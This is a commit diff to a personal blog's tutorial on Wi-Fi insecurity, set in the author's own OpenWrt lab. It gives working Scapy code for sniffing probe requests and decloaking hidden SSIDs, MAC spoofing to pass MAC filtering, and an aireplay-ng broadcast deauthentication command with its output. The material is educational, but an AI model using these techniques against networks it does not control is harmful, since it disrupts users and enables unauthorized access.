

Before and after one commit to axiomiety/axiomiety.github.io, a Jekyll site: the page built from articles/misc_wireless_insecurity.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1714 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; before the commit the page ends 2344 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update on hidden ssid

```diff
--- a/articles/misc_wireless_insecurity.markdown
+++ b/articles/misc_wireless_insecurity.markdown
@@ -98,7 +98,7 @@ def processPacket(pkt):
     if pkt.haslayer(Dot11ProbeReq):
         lyr = pkt.getlayer(Dot11)
         if lyr.addr2 not in clients :
-            logging.info('Probe request from %s for %s' % (lyr.info, lyr.addr2))
+            logging.info('Probe request for %s from %s' % (lyr.info, lyr.addr2))
             clients.append(lyr.addr2)
 
 conf.iface = 'mon0'
@@ -107,7 +107,7 @@ sniff(prn=processPacket)
 
 And sure enough:
 
-    INFO:root:Probe request from OpenWrt for 00:26:37:97:9a:7e
+    INFO:root:Probe request for OpenWrt from 00:26:37:97:9a:7e
 
 So now we have the MAC address for one of the client. Let's change ours:
 
@@ -121,13 +121,12 @@ And sure enough, we can now connect to the network!
     wlan0     Link encap:Ethernet  HWaddr 00:26:37:97:9a:7e
               inet addr:192.168.1.188  Bcast:192.168.1.255  Mask:255.255.255.0
 
-Beauty is on the router's side there's still only once client connected:
+Beauty is on the router's side, there's still only one client connected:
 
     root@OpenWrt:~# iwinfo wlan0 assoclist
     00:26:37:97:9A:7E  -65 dBm / -95 dBm (SNR 30)  200 ms ago
     RX: 58.5 MBit/s, MCS 6, 20MHz                     91 Pkts.
     TX: 43.3 MBit/s, MCS 4, 20MHz, short GI           43 Pkts.
-
 
 ### Level 0x1 ###
 
@@ -136,5 +135,69 @@ Let's step things up a very small notch by hiding the SSID on the router.
     root@OpenWrt:~# uci set wireless.@wifi-iface[0].hidden=1
     root@OpenWrt:~# uci commit
     root@OpenWrt:~# uci show wireless
+    root@OpenWrt:~# wifi
     ...
     wireless.@wifi-iface[0].hidden=1
+
+Sure enough the AP now disappears - but it doesn't mean it's no longer broadcasting. It's just not broadcasting its SSID, which the client is required to send to associate itself with the AP. Wait - the client needs to what?
+
+Yes - the client needs to send a probe request containing the SSID. And association is never authenticated. The association process is explained visually [here](https://kb.meraki.com/knowledge_base/80211-association-process-explained). So that means de-cloaking hidden SSIDs is a two-step process:
+
+  1. Find APs not broadcasting an SSID
+  2. Find clients requesting association to those APs
+
+Scapy pushes the SSID into the `info` field - if an AP is hidden that field will be empty.
+
+
+Now we just need to wait for a client to associate with the AP, which, depending on the network, could be a very long wait. We can speed things up by broadcasting deauthentication packets to the client. What that means is that it will force the client to try and re-associate with the AP. To do so it will send probe requests, which will contain the SSID. Job, done.
+
+So let's start monitoring and waiting...
+
+{% highlight python %}
+from scapy.all import *
+from scapy.layers.dot11 import Dot11ProbeReq, Dot11
+import logging
+import sys
+# default logging config to log info out to stdout
+logging.basicConfig(level=logging.INFO, handlers=[logging.StreamHandler(sys.stdout)])
+
+hidden_APs = set()
+def processPacket(pkt):
+  # 1. monitor beacon frames with no SSID
+  if pkt.haslayer(Dot11Beacon):
+    lyr = pkt.getlayer(Dot11)
+    if not lyr.info and lyr.addr2 not in hidden_APs:
+      logging.info('found AP with hidden SSID: %s' % lyr.addr2)
+      hidden_APs.add(lyr.addr2)
+  # 2. monitor for any probe requests to a MAC in hidden_APs
+  elif pkt.haslayer(Dot11ProbeResp):
+    lyr = pkt.getlayer(Dot11)
+    if lyr.addr2 in hidden_APs:
+      logging.info('decloacked SSID %s with MAC %s' % (lyr.info, lyr.addr2))
+
+conf.iface = 'mon0'
+sniff(prn=processPacket)
+{% endhighlight %}
+
+And running this, we soon get:
+
+    INFO:root:found AP with hidden SSID: 10:fe:ed:61:fa:e8
+    INFO:root:decloacked SSID OpenWrt with MAC 10:fe:ed:61:fa:e8
+
+Now this only really worked because (again) I cheated a little. I was running the script *before* turning on wifi on the client. Yes it's a little sneaky, because had the client already been associated with the AP we would have needed to wait for it to either disconnect/reconnect, or for another client to join the AP.
+
+All is not lost however and there's a way to speed this up. We can use `aireplay-ng` to send deauth frames to all clients - this will force them to re-authenticate with the AP and send the SSID in clear.
+
+    root@kali:~# aireplay-ng -0 1 -a 10:fe:ed:61:fa:e8 mon0
+    00:40:12  Waiting for beacon frame (BSSID: 10:FE:ED:61:FA:E8) on channel 11
+    NB: this attack is more effective when targeting
+    a connected wireless client (-c <client's mac>).
+    00:40:13  Sending DeAuth to broadcast -- BSSID: [10:FE:ED:61:FA:E8]
+
+(Note that aireplay-ng doesn't set the channel - it's up to you to do it via `iwconfig wlan0 channel X` and `iwconfig mon0 channel X`).
+
+Clearly if the AP had no client connected to it, it wouldn't be particularly effective. But then again it all depends on what you're trying to achieve - and whether you have time on your side.
+
+### Level 0x2 ###
+
+Let's up things up a bit by enabling WEP on the router. And we'll leave the SSID hidden too.
```
Also changed, not shown: other parts of articles/misc_wireless_insecurity.markdown (+1 -1 lines).
